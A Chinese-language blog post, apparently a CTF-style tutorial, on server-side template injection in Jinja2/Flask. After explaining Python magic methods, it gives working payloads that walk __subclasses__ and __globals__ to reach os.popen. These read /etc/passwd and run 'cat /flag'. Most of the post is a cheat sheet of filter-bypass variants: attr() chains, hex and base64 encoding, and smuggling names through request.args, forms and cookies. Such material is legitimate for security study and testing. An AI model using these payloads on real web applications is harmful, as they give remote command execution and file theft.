 # SSTI注入篇


# SSTI漏洞成因

ssti服务端模板注入成因为：web应用在使用框架（如python的flask、jinjia2、django；java的freemarker、velocity；php的thinkphp、smarty等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。



# SSTI中常用魔术方法

- \__class__ 返回一个实例所属的类
- \__mro__ 查看类继承的所有父类，直到object
- \__subclasses__() 获取一个类的子类，返回的是一个列表
- \__bases__ 以元组形式返回一个类直接继承的类
- \__init__ 类实例创建之后调用，对当前对象的实例的初始化
- \__globals\_\_ 使用方式为**函数名**\.\_\_globals__，返回一个当前空间下能使用的模块、方法和变量的字典
- \__getattribute__ 当类被调用时，无条件进入此函数
- \__getattr__ 访问对象中不存在的属性时调用
- \__dict__ 返回所有属性，包括属性、方法等
- \__builtins__ 查看当前所有导入的内建函数



# 攻击思路

- ## 获取基本类

```markdown
__dict__          //返回类中的函数和属性，父类子类互不影响
__base__          //返回类的父类 python3
__mro__           //返回类继承的元组，(寻找父类) python3
__init__          //返回类的初始化方法   
__subclasses__()  //返回类中仍然可用的引用  python3
__globals__       //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
__class__         //返回实例的对象，可以使类实例指向Class，使用上面的魔术方法
```

```markdown
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```



- ## 获取基本类后，继续获取基本类的子类

  ```markdown
  object.__subclasses__()
  ```



- ##  找\__init__类

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[99].__init__



- ## 查看其引用\__builtins__

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

  

- ## 寻找keys中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```markdown
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```



# 常用目标函数

```markdown
file、subprocess.Popen、os.popen、exec、eval
```



# 绕过过滤方法

- ## 过滤中括号

  魔术方法\__getitem__可替代中括号

  ```markdown
  当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}
  
  可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

  

- ## 过滤下划线

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时get方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__
  
  2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

  

- ## 过滤点

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}
  
  2. 使用中括号绕过，payload:
  {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

  

- ## 过滤大括号

  ````
  使用{%%}替代{{}}，payload:
  <!-- {% raw %} -->
  ```liquid
  {% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) %}
  ```
  <!-- {% endraw %} -->
  ````

- ## 过滤引号

  ```markdown
  当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.通过request.args的get传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时get传参?popen=popen&cmd=cat /flag
  
  2.通过request.form的post传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时post传参?popen=popen&cmd=cat /flag
   
  3.使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

  也可将下划线进行

- ## 过滤数字

  ```markdown
  使用过滤器length绕过
  {% set a='aaa' | lenth %}{{ ().__class__.__base__.__subclasses__()[a]}}
  ```

  

- ## 过滤函数名

  ```markdown
  1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  2.16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  3.base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```

  


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

